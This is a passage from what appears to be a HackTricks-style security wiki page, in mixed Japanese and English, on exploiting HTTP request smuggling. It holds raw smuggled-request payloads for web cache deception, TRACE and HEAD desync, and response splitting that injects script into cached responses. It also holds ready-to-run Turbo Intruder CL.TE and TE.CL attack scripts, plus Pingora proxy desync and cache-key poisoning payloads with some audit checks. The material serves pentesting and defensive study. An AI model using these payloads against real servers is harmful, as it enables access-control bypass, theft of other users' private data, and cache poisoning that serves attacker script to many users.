### HTTP request smuggling を使って web cache deception を行う <a href="#using-http-request-smuggling-to-perform-web-cache-deception" id="using-http-request-smuggling-to-perform-web-cache-deception"></a>

> **web cache poisoning と web cache deception の違いは何ですか？**
>
> - **web cache poisoning** では、attacker は application に悪意のある content を cache に保存させ、その content が cache から他の application users に配信されます。
> - **web cache deception** では、attacker は application に別の user に属する sensitive content を cache に保存させ、その後 attacker はその content を cache から取得します。

attacker は、sensitive な user-specific content を取得する smuggled request を作成します。次の example を考えてください:
```markdown
`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
`` \ `0`\ ``\
`GET /private/messages HTTP/1.1`\
`Foo: X`
```
このsmuggled requestが静的コンテンツ用のcache entry（例: `/someimage.png`）をpoisonすると、`/private/messages` からの被害者のsensitive dataが、その静的コンテンツのcache entryの下にcachedされる可能性があります。その結果、attackerはこれらのcached sensitive dataを取得できるかもしれません。

### Abusing TRACE via HTTP Request Smuggling <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

[**In this post**](https://portswigger.net/research/trace-desync-attack) では、serverでTRACE methodがenabledになっている場合、HTTP Request Smugglingでそれをabuseできる可能性があると示唆しています。これは、このmethodがserverに送信された任意のheaderをresponseのbodyの一部としてreflectするためです。例えば:
```
TRACE / HTTP/1.1
Host: example.com
XSS: <script>alert("TRACE")</script>
```
応答として次のようなものを送信します:
```
HTTP/1.1 200 OK
Content-Type: message/http
Content-Length: 115

TRACE / HTTP/1.1
Host: vulnerable.com
XSS: <script>alert("TRACE")</script>
X-Forwarded-For: xxx.xxx.xxx.xxx
```
この挙動を悪用する一例は、**まず HEAD request を smuggle する**ことです。この request は GET request の **headers** のみ、つまり **`Content-Type`** などを含めて返します。さらに **直後に TRACE request を smuggle** すると、**送信した dat**a を**反映**します。\
HEAD response には `Content-Length` header が含まれるため、**TRACE request の response は HEAD response の body として扱われ、その結果 response 内で任意の data を反映**できます。\
この response は connection 上の次の request に送られるため、例えば **cached JS file に対して任意の JS code を inject する**用途に使えます。

### HTTP Response Splitting による TRACE の悪用 <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

[**this post**](https://portswigger.net/research/trace-desync-attack) を読み進めると、TRACE method を悪用する別の方法が示されています。コメントされているように、HEAD request と TRACE request を smuggle することで、HEAD request の response 内の**いくつかの reflected data を control**できます。HEAD request の body の長さは基本的に Content-Length header で示され、TRACE request の response によって構成されます。

したがって、新しい考え方は、Content-Length と TRACE response で与えられる data を把握した上で、TRACE response に Content-Length の最後の byte の後ろに有効な HTTP response を含めさせることです。これにより attacker は次の response に対する request を完全に control でき、cache poisoning を実行できます。

Example:
```
GET / HTTP/1.1
Host: example.com
Content-Length: 360

HEAD /smuggled HTTP/1.1
Host: example.com

POST /reflect HTTP/1.1
Host: example.com

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
```
これらのレスポンスを生成します（HEADレスポンスには Content-Length があるため、TRACEレスポンスの一部がHEADのbodyになり、HEADの Content-Length が終わると有効なHTTPレスポンスがsmuggledされる点に注意してください）：
```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 165

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
Cache-Control: max-age=1000000
Content-Length: 50

<script>alert(“arbitrary response”)</script>
```
### HTTP Response Desynchronisation を使った HTTP Request Smuggling の武器化

HTTP Request Smuggling の脆弱性を見つけたけど、どうやって exploit すればいいかわからない場合は、次の別の exploit 方法を試してください:


{{#ref}}
../http-response-smuggling-desync.md
{{#endref}}

### その他の HTTP Request Smuggling Techniques

- Browser HTTP Request Smuggling (Client Side)


{{#ref}}
browser-http-request-smuggling.md
{{#endref}}

- Request Smuggling in HTTP/2 Downgrades


{{#ref}}
request-smuggling-in-http-2-downgrades.md
{{#endref}}

## Turbo intruder scripts

### CL.TE

From [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)
```python
def queueRequests(target, wordlists):

engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)

def handleResponse(req, interesting):
table.add(req)
```
### TE.CL

From: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)


def handleResponse(req, interesting):
table.add(req)
```
## Reverse-proxy parsing footguns (Pingora 2026)

Several 2026 Pingora bugs are useful because they show **classic CL.TE / TE.CL を超える desync primitives**。再利用できる教訓は、proxy が **早すぎる段階で parsing を止める**、backend と異なる方法で `Transfer-Encoding` を **normalize する**、または request body で **read-until-close に fallback する** 場合、従来の CL/TE のあいまいさがなくても FE↔BE desync が起きうる、ということです。

### Premature `Upgrade` passthrough

reverse proxy が `Upgrade` header を見た時点で、backend が **`101 Switching Protocols`** で切り替えを確認する前に raw tunnel / passthrough mode に **switch** してしまう場合、同じ TCP stream に second request を smuggle できます:
```http
GET / HTTP/1.1
Host: target.com
Upgrade: anything
Content-Length: 0

GET /admin HTTP/1.1
Host: target.com
```
フロントエンドは最初のリクエストだけを解析し、その後ろの残りを raw bytes として転送します。backend は追加された bytes を proxy の信頼された IP からの新しいリクエストとして解析します。これは特に次の用途に有用です:

- proxy ACLs、WAF rules、auth checks、rate limits を bypass する。
- reverse proxy IP を信頼する internal-only endpoints に到達する。
- 再利用された backend connections 上で cross-user response queue poisoning を引き起こす。

proxy を auditing するときは、常に **どの** `Upgrade` 値でも passthrough が発生するかを test し、切り替えが backend が `101` を返す **前** か **後** かを確認してください。

### `Transfer-Encoding` normalization bugs + HTTP/1.0 close-delimited fallback

Another useful pattern is:

1. proxy は `Transfer-Encoding` が存在することを検出するので、`Content-Length` を strip する。
2. proxy は `TE` を正しく normalize できない。
3. proxy にはもはや **認識される framing がない** ため、HTTP/1.0 の **close-delimited request bodies** に fallback する。
4. backend は TE を正しく理解し、`0\r\n\r\n` の後ろの bytes を新しいリクエストとして扱う。

これを trigger する一般的な方法:

- **Comma-separated TE list not parsed**:
```http
GET / HTTP/1.0
Host: target.com
Connection: keep-alive
Transfer-Encoding: identity, chunked
Content-Length: 29

0

GET /admin HTTP/1.1
X:
```
- **重複した TE ヘッダーはマージされない**:
```http
POST /legit HTTP/1.0
Host: target.com
Connection: keep-alive
Transfer-Encoding: identity
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: target.com
X:
```
重要な監査チェックは次のとおりです:

- front-end は、`chunked` が最後にある場合に必要なとおり、`TE` トークンの **最後** を解析するか?
- 最初の `Transfer-Encoding` ヘッダーだけでなく、**すべて** の `Transfer-Encoding` ヘッダーを使用するか?
- **HTTP/1.0** を強制して、read-until-close の body mode を発生させられるか?
- proxy は **close-delimited request bodies** を許可することがあるか? それ自体が高価値な desync の兆候です。

このクラスは外から見ると CL.TE のように見えることが多いですが、本当の primitive は次のとおりです: **TE present --> CL stripped --> no valid framing recognized --> request body forwarded until close**。

### Related cache poisoning primitive: path-only cache keys

同じ Pingora の監査では、危険な reverse-proxy cache の anti-pattern も明らかになりました: **Host**、scheme、port を無視して、cache key を **URI path のみ** から導出することです。multi-tenant や multi-vhost のデプロイでは、異なる host が同じ cache entry に衝突する可能性があります:
```http
GET /api/data HTTP/1.1
Host: evil.com
```

```http
GET /api/data HTTP/1.1
Host: victim.com
```
If both requests map to the same cache key (`/api/data`), one tenant can poison content for another. If the origin reflects the `Host` header in redirects, CORS, HTML, or script URLs, a low-value Host reflection can become **cross-user stored cache poisoning**.

キャッシュを確認する際は、キーに少なくとも次が含まれていることを確認してください:

- `Host` / virtual host の識別子
- 挙動が異なる場合の scheme (`http` vs `https`)
- 複数の application が同じ cache namespace を共有している場合の port

## Tools

- HTTP Hacker (Burp BApp Store) – 連結/フレーミングと低レベルの HTTP 挙動を可視化
- https://github.com/PortSwigger/bambdas/blob/main/CustomAction/SmugglingOrPipelining.bambda Burp Repeater Custom Action "Smuggling or pipelining?"
- [https://github.com/anshumanpattnaik/http-request-smuggling](https://github.com/anshumanpattnaik/http-request-smuggling)
- [https://github.com/PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)
- [https://github.com/gwen001/pentest-tools/blob/master/smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py)
- [https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)
- [https://github.com/Moopinger/smugglefuzz](https://github.com/Moopinger/smugglefuzz)
- [https://github.com/bahruzjabiyev/t-reqs-http-fuzzer](https://github.com/bahruzjabiyev/t-reqs-http-fuzzer): この tool は grammar-based HTTP Fuzzer で、奇妙な request smuggling の不一致を見つけるのに役立ちます。

## References

- [https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)
- [https://portswigger.net/web-security/request-smuggling/finding](https://portswigger.net/web-security/request-smuggling/finding)
- [https://portswigger.net/web-security/request-smuggling/exploiting](https://portswigger.net/web-security/request-smuggling/exploiting)
- [https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4](https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4)
- [https://github.com/haroonawanofficial/HTTP-Desync-Attack/](https://github.com/haroonawanofficial/HTTP-Desync-Attack/)
- [https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html](https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html)
- [https://standoff365.com/phdays10/schedule/tech/http-request-smuggling-via-higher-http-versions/](https://standoff365.com/phdays10/schedule/tech/http-request-smuggling-via-higher-http-versions/)
- [https://portswigger.net/research/trace-desync-attack](https://portswigger.net/research/trace-desync-attack)
- [https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/)
- Beware the false false‑positive: how to distinguish HTTP pipelining from request smuggling – [https://portswigger.net/research/how-to-distinguish-http-pipelining-from-request-smuggling](https://portswigger.net/research/how-to-distinguish-http-pipelining-from-request-smuggling)
- [https://http1mustdie.com/](https://http1mustdie.com/)
- Browser‑Powered Desync Attacks – [https://portswigger.net/research/browser-powered-desync-attacks](https://portswigger.net/research/browser-powered-desync-attacks)
- PortSwigger Academy – client‑side desync – [https://portswigger.net/web-security/request-smuggling/browser/client-side-desync](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync)
- [https://portswigger.net/research/http1-must-die](https://portswigger.net/research/http1-must-die)
- [https://xclow3n.github.io/post/6/](https://xclow3n.github.io/post/6/)
- [https://github.com/cloudflare/pingora/security/advisories/GHSA-xq2h-p299-vjwv](https://github.com/cloudflare/pingora/security/advisories/GHSA-xq2h-p299-vjwv)
- [https://github.com/cloudflare/pingora/security/advisories/GHSA-hj7x-879w-vrp7](https://github.com/cloudflare/pingora/security/advisories/GHSA-hj7x-879w-vrp7)
- [https://github.com/cloudflare/pingora/security/advisories/GHSA-f93w-pcj3-rggc](https://github.com/cloudflare/pingora/security/advisories/GHSA-f93w-pcj3-rggc)


{{#include ../../banners/hacktricks-training.md}}
